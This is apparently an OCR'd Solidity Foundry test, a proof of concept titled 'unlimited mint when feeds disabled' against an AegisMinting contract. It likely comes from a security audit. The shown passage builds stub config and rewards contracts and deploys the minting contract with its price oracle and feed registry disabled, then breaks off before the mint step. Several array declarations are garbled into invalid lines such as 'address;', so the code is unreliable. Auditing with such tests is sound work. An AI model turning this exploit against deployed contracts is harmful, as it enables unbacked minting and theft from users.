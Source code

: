 ```solidity
        revert("not used");
    }
}

/// @dev Stub config always whitelists and returns trustedSigner
contract StubConfig is IAegisConfig, ERC165 {
    address public override trustedSigner;
    bool    public override whitelistEnabled = true;

    constructor(address _signer) {
        trustedSigner = _signer;
    }

    function isWhitelisted(address) external pure override returns (bool) {
        return true;
    }

    function supportsInterface(bytes4 iid) public view override(ERC165, IERC165) returns (bool) {
        return iid == type(IAegisConfig).interfaceId || super.supportsInterface(iid);
    }
}

/// @dev Stub rewards; unused in this test
contract StubRewards is IAegisRewards {
    function depositRewards(bytes calldata, uint256) external override {}
}

/// @title Exploit demonstration: unlimited mint when feeds disabled
contract ExploitMint is Test {
    AegisMinting    minting;
    MockERC20       USDC;
    MockERC20       YUSD;
    StubConfig      config;
    StubRewards     rewardsStub;

    address admin   = address(0xABCD);
    address attacker;
    address signerIndex = address(1);

    function setUp() public {
        attacker = vm.addr(2);

        // Deploy stubs
        USDC        = new MockERC20("USD Coin", "USDC", 6);
        YUSD        = new MockERC20("Yield USD", "YUSD", 18);
        config      = new StubConfig(vm.addr(1));  // private key 1 => signer
        rewardsStub = new StubRewards();

        // Prepare constructor args
        address;
        assets[0]                   = address(USDC);
        uint32;
        heartbeats[0]               = 1 days;
        address;

        // Deploy AegisMinting with feeds OFF (zero)
        minting = new AegisMinting(
            IYUSD(address(YUSD)),
            IAegisConfig(address(config)),
            IAegisRewards(address(rewardsStub)),
            IAegisOracle(address(0)),             // oracle disabled
            FeedRegistryInterface(address(0)),    // feedRegistry disabled
            admin,                                // insuranceFundAddress
```